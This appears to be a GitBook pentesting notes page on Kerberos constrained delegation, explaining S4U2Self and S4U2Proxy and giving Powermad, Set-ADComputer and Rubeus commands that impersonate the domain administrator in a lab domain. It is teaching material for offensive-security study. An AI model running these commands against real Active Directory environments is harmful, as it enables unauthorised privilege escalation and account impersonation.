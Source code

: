 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Constrained

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).
{% endhint %}

## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><img src="../../../../.gitbook/assets/cd_wireshark.png" alt=""><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><img src="../../../../.gitbook/assets/cd_exploit_1.png" alt=""><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).

{% code overflow="wrap" %}
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_2.png" alt=""><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_3.png" alt=""><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><img src="../../../../.gitbook/assets/cd_withPT_diffs.png" alt=""><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```
{% endcode %}

If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_1.png" alt=""><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_2.png" alt=""><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><img src="../../../../.gitbook/assets/cd_pt_services.png" alt=""><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Video Lecture" %}
{% embed url="https://www.youtube.com/watch?v=gzqq2r6cZjc" %}
{% endtab %}

{% tab title="BlackHat Talk" %}
{% embed url="https://www.youtube.com/watch?v=Y2Wh2e6eZVc" %}
{% endtab %}
{% endtabs %}

[^1]: User Account Control
